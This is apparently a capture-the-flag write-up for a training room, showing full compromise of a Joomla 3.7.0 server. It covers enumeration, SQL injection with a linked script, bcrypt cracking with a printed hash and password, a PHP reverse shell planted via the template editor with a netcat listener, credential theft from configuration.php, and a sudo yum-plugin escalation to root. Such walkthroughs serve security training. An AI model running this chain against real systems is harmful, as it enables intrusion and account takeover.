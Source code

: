 # [Daily Bugle](https://tryhackme.com/room/dailybugle)

## Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum

# Deploy

### Access the web server, who robbed the bank?

1. Enumerate all services running on the target machine with `nmap`

[SCREEN01]

2. Go to the `http://IP/`, the headline article states that **spiderman** robbed the bank

[SCREEN02]

---

### Obtain user and root

## Hack into the machine and obtain the root user's credentials

### What is the Joomla version?

_Hint: I wonder if this version of Joomla is vulnerable..._

1. Use `joomscan` to identify the exact Joomla version:
   - The version is **3.7.0**

```bash
git clone https://github.com/OWASP/joomscan.git
cd joomscan
chmod +x joomscan.pl
perl joomscan.pl --url http://IP
```

[SCREEN03]

---

### What is Jonah's cracked password?

_Hint: SQLi & JohnTheRipper_

1. Use the [Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla) python script

```bash
python3 joomblah.py http://IP/
```

[SCREEN04]

2. Copy the password hash, and crack it with John the Ripper
   - The password is **spiderman123**

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > jonah_hash.txt
john --format=bcrypt --wordlist=/root/Tools/wordlists/rockyou.txt jonah_hash.txt
```

[SCREEN05]

---

### What is the user flag?

1. Perform directory enumeration to identify the admin login page

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

[SCREEN06]

2. Log in to the Joomla administrator panel at `http://IP/administrator/index.php` with `jonah:spiderman123`

3. Paste [PHP Reverse Shell payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) in template. For example: `http://10.10.48.111/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

4. Deploy a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) through the template editor at `http://IP/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

5. Set up a netcat listener on your attacking machine and trigger the reverse shell by visiting the modified template page in the browser

```bash
nc -lvnp 4444
```

[SCREEN07]

5. From the initial shell, examine the website configuration to find credentials

```bash
cd /var/www/html
cat configuration.php
```

[SCREEN08]

6. Use the discovered password to switch to the `jjameson` user

```bash
su jjameson

# Upgrade shell to interactive PTY
python -c 'import pty; pty.spawn("/bin/bash")'
```

[SCREEN09]

7. Retrieve the user flag

```bash
cat /home/jjameson/user.txt
```

[SCREEN10]

---

### What is the root flag?

1. Check for privilege escalation vectors

```bash
sudo -l
```

[SCREEN11]

2. Exploit the `yum` plugin functionality to gain root access using a method from [GTFOBins](https://gtfobins.github.io/gtfobins/yum/)

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y

whoami
```

[SCREEN12]

3. Retrieve the root flag

```bash
cat /root/root.txt
```

[SCREEN13]
